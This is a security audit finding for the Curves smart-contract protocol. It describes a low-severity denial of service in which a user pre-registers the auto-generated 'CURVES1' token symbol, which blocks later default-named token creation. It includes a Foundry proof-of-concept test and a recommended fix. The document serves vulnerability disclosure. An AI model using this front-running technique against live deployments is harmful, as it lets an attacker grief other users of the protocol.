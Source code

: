 ## L-01 - Any user can halt creating generic Curve tokens

Because of how Curves._deployERC20() is designed, if a token's symbol equals DEFAULT_SYMBOL, the protocol will auto-generate a token name and symbol. You can see that here:

```solidity
// Inside Curves._deployERC20()
//
if (keccak256(bytes(symbol)) == keccak256(bytes(DEFAULT_SYMBOL))) {
    _curvesTokenCounter += 1;
    name = string(abi.encodePacked(name, " ", Strings.toString(_curvesTokenCounter)));
    symbol = string(abi.encodePacked(symbol, Strings.toString(_curvesTokenCounter)));
}

if (symbolToSubject[symbol] != address(0)) revert InvalidERC20Metadata();
...
symbolToSubject[symbol] = curvesTokenSubject;
```

If another curveTokenSubject set their token as a future name and symbol:

name: `Curves 1`
symbol: `CURVES1`

This will set `CURVES1 ` as a key in Curves.symbolToSubject and prevent any future curve token subject from creating a default curve token and symbol since the key is already taken.

You can run the test below which will lead to a revert since another user :

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.7;

import "forge-std/Test.sol";
import "../contracts/Curves.sol";

contract CurveTest is Test {
  FeeSplitter public feeRedistributor;
  CurvesERC20Factory public curvesERC20Factory;
  Curves public curves;

  address curveTokenSubject = address(0x88);
  address innocent = address(0x01);
  address hacker = address(0x07);

  function setUp() public {
    address feeRedistributor_ = address(0x88);

    curvesERC20Factory = new CurvesERC20Factory();
    feeRedistributor = FeeSplitter(payable(feeRedistributor_));

    curves = new Curves(address(curvesERC20Factory), address(feeRedistributor));

    // AUDIT: Creating token with placeholder values will break creating Curve tokens with default name/symbol
    vm.startPrank(curveTokenSubject);
    curves.buyCurvesTokenWithName(
      curveTokenSubject,
      1,
      "Curves 1",
      "CURVES1"
    );
  }

  function testCurveDefaultValueBroken() public {
    vm.startPrank(innocent);
    vm.deal(innocent, 21146875000000000000);
    curves.buyCurvesTokenWithName(
      curveTokenSubject,
      1,
      "Curves",
      "CURVES"
    );
  }
}  
```
 
Curves should consider an alternate approach to generating a token name and symbol such that it can't be DOS'd.